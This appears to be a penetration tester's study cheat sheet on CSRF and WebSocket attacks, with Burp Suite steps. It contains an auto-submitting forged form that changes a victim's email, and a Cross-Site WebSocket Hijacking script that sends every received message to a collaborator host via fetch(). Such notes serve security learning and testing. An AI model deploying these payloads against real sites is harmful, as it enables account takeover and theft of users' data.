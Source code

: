 
# CSRF

Step 1: Identify 3 conditions:
    1. Relevant Action - Action in the application the attacker wishes to induce
    2. Cookie-based Session Handling - Self explanitory (No Authorization Headers!)
    3. No Unpredictable Request Parameters - CSRF Token / Must know current password to change
Step 2: Build malicous page to exploit
    - Custom:
    <html>
        <body>
            <form action="https://vulnerable-website.com/email/change" method="POST">
                <input type="hidden" name="email" value="pwned@evil-user.net" />
            </form>
            <script>
                document.forms[0].submit();
            </script>
        </body>
    </html> 
    - Burp:
        1. Select Targeted Request
        2. Right-click -> Engagement Tools -> Generate CSRF PoC
        3. Customize generated PoC as needed
        4. Host in AWS


# WebSockets

- WebSocket messages can be intercepted in Burp just like HTTP/HTTPS requests
- Set Client-to-Server or Server-to-Client in the Options tab
- Manipulate WebSocket handshake:
    Why?
        ~ Expand attack surface (most important)
        ~ Attack may close your established connection
        ~ Token expires
    Step 1: Burp Repeater -> "Pencil Icon" next to the WebSocket URL
    Step 2: Choose to clone or reconnect
    Step 3: Edit connection as needed
    Step 4: Click "Connect" to initiate handshake
- Identify design flaws:
    ~ Misplaced trust in HTTP security headers
    ~ Flaws in session handling
    ~ Expanded attack surface w/ custom HTTP headers
- Cross-Site WebSocket Hijacking (CSWSH):
    ~ Identify HTTP WebSocket handshake that does not have CSRF or other unpredictable token
    ~ Session must be established through cookie, just like CSRF
    ~ Sec-WebSocket-Key header DOES NOT perform authentication or session handling
    ~ Malicious Application:
        <script>
            websocket = new WebSocket('wss://your-websocket-URL')
            websocket.onopen = start
            websocket.onmessage = handleReply
            function start(event) {
                websocket.send("READY");
            }
            function handleReply(event) {
                fetch('https://your-collaborator-domain/?'+event.data, {mode: 'no-cors'})
            }
        </script> 
